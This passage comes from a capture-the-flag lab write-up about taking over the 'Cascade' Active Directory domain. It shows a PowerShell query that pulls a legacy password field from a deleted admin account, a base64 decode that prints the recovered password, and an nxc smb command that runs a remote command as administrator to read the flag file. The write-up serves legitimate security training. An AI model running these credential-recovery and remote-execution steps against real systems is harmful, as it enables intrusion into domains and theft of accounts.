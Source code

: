 This service account is a member of the `AD Recycle Bin` group which has the ability to [query deleted objects](https://o365info.com/restore-active-directory-deleted-user-account-using-active-directory-recycle-bin-article-4-4-part-16-23/). One of them is the account `TempAdmin` and it also has a `cascadeLegacyPwd` field (Figure 21).

{% code overflow="wrap" %}
```powershell
# searching for deleted AD objects
Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -IncludeDeletedObjects -Filter {ObjectClass -eq "user"} -Properties *
```
{% endcode %}

<figure><img src="../../.gitbook/assets/casc_tempadmin_legacy.png" alt=""><figcaption><p>Figure 21: The cascadeLegacyPwd field of the deleted object TempAdmin.</p></figcaption></figure>

Luckily for us, this time the password is just base64-encrypted:

```bash
$ echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d
baCT3r1aN00dles
```

The email found earlier let us know that the password for `TempAdmin` was the same password as of the "_normal admin account_", so we can use them to achieve full domain compromise by reading both the `user.txt` and the `root.txt` files (Figure 22).

{% code overflow="wrap" %}
```bash
nxc smb 10.10.10.182 -u administrator -p tempadmin_pass -x 'type c:\users\administrator\desktop\root.txt'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/casc_root.png" alt=""><figcaption><p>Figure 22: Password reuse leading to full domain compromise!</p></figcaption></figure>
